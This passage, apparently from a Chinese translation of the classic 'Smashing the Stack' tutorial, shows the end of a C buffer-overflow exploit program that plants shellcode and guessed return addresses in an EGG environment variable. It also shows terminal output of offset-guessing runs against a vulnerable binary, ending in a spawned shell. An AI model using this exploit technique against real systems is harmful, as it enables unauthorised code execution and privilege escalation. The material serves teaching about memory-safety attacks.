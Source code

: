 ```c

    int i;

    if (argc > 1) bsize = atoi(argv[1]);
    if (argc > 2) offset = atoi(argv[2]);

    if (!(buff = malloc(bsize))) {
        printf("Can't allocate memory.\n");
        exit(0);
    }

    addr = get_sp() - offset;
    printf("Using address: 0x%x\n", addr);

    ptr = buff;
    addr_ptr = (long *) ptr;
    for (i = 0; i < bsize; i+=4)
        *(addr_ptr++) = addr;

    ptr += 4;
    for (i = 0; i < strlen(shellcode); i++)
        *(ptr++) = shellcode[i];

    buff[bsize - 1] = '\0';

    memcpy(buff,"EGG=",4);
    putenv(buff);
    system("/bin/bash");
}
```

现在我们尝试猜测缓冲区的大小和偏移量:

```
[aleph1]$ ./exploit2 500
Using address: 0xbffffdb4
[aleph1]$ ./vulnerable $EGG
[aleph1]$ exit
[aleph1]$ ./exploit2 600
Using address: 0xbffffdb4
[aleph1]$ ./vulnerable $EGG
Illegal instruction
[aleph1]$ exit
[aleph1]$ ./exploit2 600 100
Using address: 0xbffffd4c
[aleph1]$ ./vulnerable $EGG
Segmentation fault
[aleph1]$ exit
[aleph1]$ ./exploit2 600 200
Using address: 0xbffffce8
[aleph1]$ ./vulnerable $EGG
Segmentation fault
[aleph1]$ exit
.
.
.
[aleph1]$ ./exploit2 600 1564
Using address: 0xbffff794
[aleph1]$ ./vulnerable $EGG
$
```
